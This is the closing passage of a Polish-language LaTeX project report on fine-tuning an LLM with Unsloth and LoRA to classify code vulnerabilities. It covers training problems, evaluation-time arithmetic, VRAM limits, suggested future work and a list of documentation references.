W systemie operacyjnym Windows, który arbitralnie został wykorzystany do procesu uczenia modelu,  moduł \texttt{multiprocessing} języka Python wykorzystuje metodę
\emph{spawn}, która \emph{ponownie importuje cały skrypt w każdym procesie potomnym}. W momencie, gdy Unsloth jest importowany w skrypcie głównym, 
biblioteka łata narzędzie do tokenizacji niestandardowymi atrybutami \emph{już w momencie importu}. Gdy procesy potomne ponownie importują skrypt,
otrzymują świeży, niełatany obiekt tokenizera - lecz spicklorowane dane z procesu głównego odwołują się do łatanych atrybutów, które nie istnieją, powodując błędy
\texttt{AttributeError}.

Rozwiązaniem tego problemu było utworzenie oddzielnego skryptu do tokenizacji -\\    \texttt{2.data\_tokenization.py}, który operował na zasobach CPU przed załadowaniem modelu, 
w celu obejścia fundamentalnej niezgodności między mechanizmem łatania środowiska uruchomieniowego biblioteki Unsloth a metodą \texttt{spawn} stosowaną przez moduł 
\texttt{multiprocessing} dla systemu Windows.

\subsection{Długi czas ewaluacji podczas dostosowywania modelu}
\label{ssec:problem_long_eval}

W analizie post factum uczenia wyciągnięto wniosek, iż wartości parametrów \texttt{eval\_steps} oraz \texttt{save\_steps} powinny były być zwiększone.
Wniosek ten wynika z prostej arytmetyki: przy 11 157 krokach treningowych, co $ eval\_steps = 200 $ kroków robiono ewaluację oraz zapis danych. Owa ewaluacja oparta była na 
całym zbiorze walidacyjnym, tj. 3 500 dodatkowych krokach, z czego każdy zajmował ok. $0,17 s$. Wykonując szybkie obliczenia możemy wyznaczyć całkowity czas 
procesu ewaluacji w trakcie uczenia:
$$ t_{1 ewaluacji} = t_{1 kroku} * n_{kroków} = 0,17*3500s = 595s \approx \frac{1}{6}h $$ 
$$ n_{ewaluacji} = \frac{n_{kroków}}{eval\_step}\frac{11157}{200} = 55,785 \approx 56 $$  
$$ T_{całkowity ewaluacji} = n_{ewaluacji} \times t_{1 ewaluacji} = 56 * \frac{1}{6}h \approx 9,3h  $$

Ustalenie większej wartości \texttt{eval\_steps} oraz \texttt{save\_steps} sprawiałoby, że $T_{całkowity ewaluacji}$ byłby znacznie mniejszy, skracając
czas uczenia. Przykładowo, gdyby wstępne ustawiono $eval\_steps = 500$, ewaluacja zajęłaby wyłącznie 3,8h.

\subsection{Wyczerpanie pamięci VRAM podczas dostrajania}

W oryginalnych założeniach, wybrane zostały wyższe parametry dostosowania LLM, w celu ograniczenia wszystkich potencjalnych wektorów obstrukcji działania LLM. 
Względnie szybko okazało się, że owa konfiguracja nie jest odpowiednia na miarę sprzętu, na którym wykonywane zostało uczenie - ustawienia wstępne sprawiały że, między innymi, 
pamięć VRAM karty graficznej wyczerpała się w sekcji inicjalizacji \texttt{unsloth} lub pojedynczy krok uczenia trwał powyżej 15 sekund, co jest znacznym opóźnieniem dla uczenia modelu.
Ostatecznie, ustalono dokonać i dostosować modelu z konfiguracją opisaną w sekcji \ref{sssec:model_configuration}.


\section{Sugerowane kierunki dalszego rozwoju}

Poniżej znajduje się zbiór proponowanych kierunków rozwoju, które zespół zauważył i chce przekazać późniejszym osobom rozwijającym aplikację, jeżeli owy rozwój się odbędzie.
Niniejszy rozdział zostanie podzielony na sekcje analogiczne do sekcji raportu.

\subsection{Backend}
\begin{enumerate}
    \item Zdobycie certyfikatu SSL innego niż samopodpisany. Krok ten jest wymagany w przypadku, gdy aplikacja ma trafić na środowisko produkcyjne. Wymaga on zgłoszenia się do odpowiedniej instytucji certyfikującej i zdobycia certyfikatu SSL dla systemu; 
    \item Dodanie odpowiednich tras chronionych sprawdzeniem uprawnień (\texttt{teacher\_router}). W aktualnej wersji systemu, z uwagi na brak możliwości testu systemu od strony pracownika (zarejestrowanego w ten sposób w systemie USOS), zespół nie wystawił uprawnień i funkcjonalności związanych z prowadzącymi. W przyszłości, sugerowane jest rozwinięcie, dodatkowe przetestowanie oraz wypuszczenie takich endpoint'ów.
\end{enumerate}

\subsection{Model LLM}
\begin{enumerate}
    \item Rozwinięcie modelu o obsługę większej liczby podatności, na potrzebę uczenia w systemie. W ramach tego punktu, warto wspomnieć o istotności zastosowania ważonego próbkowania dla klas mniejszościowych w celu zrównoważenia dysproporcji;
    \item Format odpowiedzi z łańcuchem myślenia - dodanie krótkiego śladu rozumowania przed etykietą, które mogą zawierać m.in. linię w której jest podatność oraz powód decyzji (np.\ „Dane użytkownika są bezpośrednio łączone z zapytaniem SQL bez parametryzacji. Linia: 35. Podatność: SQL Injection.'');
    \item Ustawienie wyższej rangi LoRA (r=16 lub r=32) na jednej lub wielu kartach graficznych z większą sumaryczną ilością VRAM zapewniłaby adapterom większą pojemność ekspresyjną;
    \item Zapewnienie dłuższego kontekstu treningowego (2048 tokenów) w celu obsługi dłuższych i bardziej złożonych rzeczywistych fragmentów kodu, które mogą być obcinane przy limicie 1024 tokenów.
\end{enumerate}



\section{Wybrana wykorzystana literatura}
\begin{enumerate}
    \item \url{https://fastapi.tiangolo.com/} - dokumentacja FastAPI;
    \item \url{https://www.postgresql.org/docs/} - dokumentacja PostgreSQL;
    \item \url{https://apps.usos.pw.edu.pl/developers/api/} - dokumentacja USOS API;
    \item \url{https://docs.ollama.com/} - dokumentacja Ollama;
    \item \url{https://unsloth.ai/docs} - dokumentacja Unsloth;
    \item \url{https://docs.pytorch.org/docs/2.12/index.html} - dokumentacja PyTorch;
    \item \url{https://www.ibm.com/think/topics/lora} - artykuł IBM dotyczący podejścia LoRA;
    \item \url{https://optimization.cbe.cornell.edu/index.php?title=AdamW} - wybrany opis algorytmu AdamW.
\end{enumerate}


\end{document}